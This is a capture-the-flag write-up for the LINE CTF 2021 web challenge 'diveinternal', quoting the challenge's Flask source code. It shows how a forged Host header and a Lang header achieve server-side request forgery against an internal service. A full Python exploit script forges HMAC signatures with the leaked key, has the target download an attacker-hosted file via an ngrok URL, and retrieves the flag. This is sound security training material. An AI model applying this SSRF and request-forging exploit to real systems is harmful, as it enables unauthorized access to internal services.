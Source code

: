 # LINE CTF 2021 - Web - diveinternal

## Problem

> Target the server's internal entries, access admin, and roll back.  
> Keytime: Asia/Japan

## Solution

We analyzed the given website and source code, and found the following:

* This application has the `public` side and the `private` side, and `private` is not directly accessible.
* We can get the FLAG by calling `/rollback` on the `private` side with `Sign`, `Key` and `dbhash` as parameters.
* `/apis`, `/apis/coin` and `/apis/addsub` access from `public` to `private`.

So, we should access `private` indirectly form `public`, and call `/rollback` with the required parameters.

### 1. Access to `/rollback` on `private` from `public`

We found that we can call any endpoints on `private` by calling `/apis/coin` with `Lang: <ENDPOINT>` and `Host: private:5000` as header parameter.

```py
@app.route('/coin', methods=['GET'])
def coin():
    try:
        response = app.response_class()
        language = LanguageNomarize(request)
        response.headers["Lang"] =  language
        data = getCoinInfo()
        response.data = json.dumps(data)
        return response
    except Exception as e :
        err = 'Error On  {f} : {c}, Message, {m}, Error on line {l}'.format(f = sys._getframe().f_code.co_name ,c = type(e).__name__, m = str(e), l = sys.exc_info()[-1].tb_lineno)
        logger.error(err)
```

`LanguageNomarize` function is called on `/apis/coin`, and the response contains the return value.

```py
def LanguageNomarize(request):
    if request.headers.get('Lang') is None:
        return "en"
    else:
        regex = '^[!@#$\\/.].*/.*' # Easy~~
        language = request.headers.get('Lang')
        language = re.sub(r'%00|%0d|%0a|[!@#$^]|\.\./', '', language)
        if re.search(regex,language):
            return request.headers.get('Lang')
        
        try:
            data = requests.get(request.host_url+language, headers=request.headers)
            if data.status_code == 200:
                return data.text
            else:
                return request.headers.get('Lang')
        except:
            return request.headers.get('Lang')
```

GET `request.host_url+language` is hit on `LanguageNomarize` function.  
Setting `Lang: <ENDPOINT>` and `Host: private:5000` as header parameter, we can access `private` endpoints.

### 2. Call `/rollback` with required parameters

We should call `/rollback` with required parameters: `Sign`, `Key` and `dbHash`.

#### `Sign`

We can calcurate `Sign` by `hmac.new(privateKey, request.query_string, hashlib.sha512).hexdigest()`.

```py
def SignCheck(request):
    sigining = hmac.new(privateKey, request.query_string, hashlib.sha512)

    if sigining.hexdigest() != request.headers.get('Sign'):
        return False
    else:
        return True
```

#### `Key`

We can calcurate `Key` by `hashlib.sha512((dbhash).encode('ascii')).hexdigest()`, and can get `dbhash` by calling `/integrityStatus` on `private` side.

```py
    def IntegrityCheck(self, key, dbHash): 
        if self.integrityKey == key:
            pass
        else:
            return json.dumps(status['key'])
        ︙
```

We need pass `self.integrityKey == key`.

```py
    def UpdateKey(self):
        file = open(os.environ['DBFILE'],'rb').read()
        self.dbHash = hashlib.md5(file).hexdigest()
        self.integrityKey = hashlib.sha512((self.dbHash).encode('ascii')).hexdigest()
```

`integrityKey` is calcurated by `hashlib.sha512((dbHash).encode('ascii'))`.

```py
@app.route('/integrityStatus', methods=['GET'])
def integritycheck():
    data = {'db':'database/master.db','dbhash':activity.dbHash}
    data = json.dumps(data)
    return data
```

We can get `dbHash` by calling `/integrityStatus`.

#### `dbhash`

We should create `backup/{filename}` in advance, and set `dbhash` to `filename`.

```py
    def IntegrityCheck(self, key, dbHash): 
        ︙
        if self.dbHash != dbHash:
            flag = RunRollbackDB(dbHash)
            logger.debug('DB File changed!!'+dbHash)
            file = open(os.environ['DBFILE'],'rb').read()
            self.dbHash = hashlib.md5(file).hexdigest()
            self.integrityKey = hashlib.sha512((self.dbHash).encode('ascii')).hexdigest()
            return flag
        return "DB is safe!"
```

`dbHash` should be `self.dbHash != dbHash`.

```py
def RunRollbackDB(dbhash):
    try:
        ︙
        dbhash = ''.join(e for e in dbhash if e.isalnum())
        if os.path.isfile('backup/'+dbhash):
            with open('FLAG', 'r') as f:
                flag = f.read()
                return flag
        else:
            return "Where is file?"
```

`backup/{dbHash}` should exist.

```py
def WriteFile(url):
    local_filename = url.split('/')[-1]
    with requests.get(url, stream=True) as r:
        r.raise_for_status()
        with open('backup/'+local_filename, 'wb') as f:
            for chunk in r.iter_content(chunk_size=8192): 
                f.write(chunk)
︙
@app.route('/download', methods=['GET','POST'])
def download():
    try:
        ︙
        if request.method == 'GET':
            src = request.args.get('src')

            if valid_download(src):
                pass
            else:
                return json.dumps(status.get('false'))
        ︙
        WriteFile(src)
        return json.dumps(status.get('success'))
        ︙
```

We can create `backup/{local_filename}` by calling `/download` with `src`.

### 3. Get the FLAG

We executed the following code with serving `dummy` file by ngrok, and got the flag.

```py
import hmac
import hashlib
import json
import requests

# SERVICE_URL = 'http://localhost:12004'
SERVICE_URL = '<SERVICE_URL>'
NGROK_URL = '<NGROK_URL>'
PRIVATE_KEY = b'let\'sbitcorinparty'


def integrityStatus():
    res = requests.get(f'{SERVICE_URL}/apis/coin', headers={
        'Host': 'private:5000',
        'Lang': 'integrityStatus'
    })
    return res.headers.get('Lang')


def download(src: str):
    sigining = hmac.new(
        PRIVATE_KEY, f'src={src}'.encode('ascii'), hashlib.sha512).hexdigest()
    res = requests.get(f'{SERVICE_URL}/apis/coin', headers={
        'Host': 'private:5000',
        'Lang': f'download?src={src}',
        'Sign': sigining
    })
    return res.headers.get('Lang')


def rollback(key: str, dbhash: str):
    sigining = hmac.new(
        PRIVATE_KEY, f'dbhash={dbhash}'.encode('ascii'), hashlib.sha512).hexdigest()
    res = requests.get(f'{SERVICE_URL}/apis/coin', headers={
        'Host': 'private:5000',
        'Lang': f'rollback?dbhash={dbhash}',
        'Sign': sigining,
        'Key': key
    })
    return res.headers.get('Lang')


if __name__ == '__main__':
    res = integrityStatus()
    print(res)

    status = json.loads(res)
    dbhash = status['dbhash']

    file = 'dummy'
    res = download(f'{NGROK_URL}/{file}')
    print(res)

    key = hashlib.sha512((dbhash).encode('ascii')).hexdigest()
    res = rollback(key, file)
    print(res)
```

`LINECTF{YOUNGCHAYOUNGCHABITCOINADAMYMONEYISBURNING}`
